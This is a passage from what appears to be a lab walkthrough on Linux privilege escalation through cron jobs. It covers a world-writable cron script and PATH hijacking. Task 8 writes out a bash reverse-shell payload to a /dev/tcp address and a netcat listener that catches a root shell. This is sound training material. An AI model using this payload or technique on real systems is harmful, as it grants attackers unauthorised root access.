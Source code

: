 ```sudo -l```
> __Remember to exit out of the root shell before continuing!__

---

* Answer the questions below
* Read and follow along with the above.

```No answer needed```


## Task 8: Cron Jobs - File Permissions

* Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

* View the contents of the system-wide crontab:

```cat /etc/crontab```

* There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

* Locate the full path of the overwrite.sh file:

```locate overwrite.sh```

* Note that the file is world-writable:

```ls -l /usr/local/bin/overwrite.sh```

* Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

* Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```nc -nvlp 4444```

> __Remember to exit out of the root shell and remove the reverse shell code before continuing!__

---

* Answer the questions below
* Read and follow along with the above.

```No answer needed```


## Task 9: Cron Jobs - PATH Environment Variable

* View the contents of the system-wide crontab:

```cat /etc/crontab```

> Note that the PATH variable starts with /home/user which is our user's home directory.

* Create a file called overwrite.sh in your home directory with the following contents:

```bash
#!/bin/bash
```
